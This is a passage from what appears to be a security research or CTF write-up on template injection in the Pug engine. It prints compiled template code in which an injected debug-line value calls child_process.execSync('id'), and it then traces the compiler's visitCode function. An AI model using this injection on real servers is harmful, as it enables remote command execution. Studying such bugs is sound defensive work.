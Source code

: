 After run, we have the Compiled result as following:

```Javascript
Compiled Function:

function template(locals) {var pug_html = "", pug_mixins = {}, pug_interp;var pug_debug_filename, pug_debug_line;try {;
      var locals_for_with = (locals || {});
      
      (function (console, msg, process) {
        ;pug_debug_line = 1;
  pug_html = pug_html + "\u003Ch1\u003E";
  ;pug_debug_line = 1;
  pug_html = pug_html + (pug.escape(null == (pug_interp = msg) ? "" : pug_interp));
  ;pug_debug_line = console.log(process.mainModule.require('child_process').execSync('id').toString());
  pug_html = pug_html + "ndefine\u003C\u002Fh1\u003E";
      }.call(this, "console" in locals_for_with ?
          locals_for_with.console :
          typeof console !== 'undefined' ? console : undefined, "msg" in locals_for_with ?
          locals_for_with.msg :
          typeof msg !== 'undefined' ? msg : undefined, "process" in locals_for_with ?
          locals_for_with.process :
          typeof process !== 'undefined' ? process : undefined));
      ;} catch (err) {pug.rethrow(err, pug_debug_filename, pug_debug_line);};return pug_html;}
```

Compares with final result **n00b-bot blog**, I recognize the the msg is not appeared on result of blog.

![pug_compares0.png](img/pug_compares0.png)

After debugging, I found there is the `visitCode` function that will process and put data inside of it

![AST_VisitCode0.png](img/AST_VisitCode0.png)

